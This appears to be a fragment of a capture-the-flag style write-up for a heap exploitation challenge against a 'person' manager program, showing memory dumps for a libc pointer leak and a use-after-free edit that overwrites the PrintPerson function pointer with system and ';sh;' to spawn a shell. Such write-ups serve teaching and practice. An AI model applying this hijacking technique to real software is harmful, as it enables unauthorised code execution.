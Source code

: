 [2] Delete the first person

```
0x81a81e0: 0xf7fd07b0  0xf7fd07b0  0x00000000  0x00000000
0x81a81f0: 0x00000000  0x00000000  0x00000000  0x00000000

```
- This will result in populating the pointer back to the libc

[3] Make a person with size of four and overwrite the last byte of the populated pointer

```
0x81a81f0: 0xf7fd080a  0xf7fd08b0  0x00000000  0x000000f9
0x81a8200: 0xf7fd07b0  0xf7fd07b0  0x00000000  0x00000000
```

- In this case, I overwrote the last byte of populated pointer with a new line

[4] Calculate the base address of libc and system based on the leak

```
Enter person's index (0-based): 0
Name:
����
Age: 10
```

[5] Make two more people with size of 256 and free the first new person

```
Your global person array should look like this:

----------------------------------------------
|             | size | name | age | isFree?  |
----------------------------------------------
|person[0] ->  |   8  | aaaa | 10  |    No   |
----------------------------------------------
|person[1] ->  |  256 | bbbb |  1  |    No   |
----------------------------------------------
|person[2] ->  |  256 | cccc | 10  |    No   |
----------------------------------------------
|person[3] ->  |  256 | cccc | 10  |    No   |
----------------------------------------------
                      .
                      .
                      .
```

[6] Edit the freed person (person[2]) and fill up the buffer so that it overwrites the function pointer (PrintPerson) of the next person  

```
0xf748d1e8: 0x00000000  0x00000011  0x3b68733b  0x00000000
0xf748d1f8: 0x00000000  0x00000000  0xf7638940  0x3b68733b
                                      system       ;sh;
```

[7] Profit
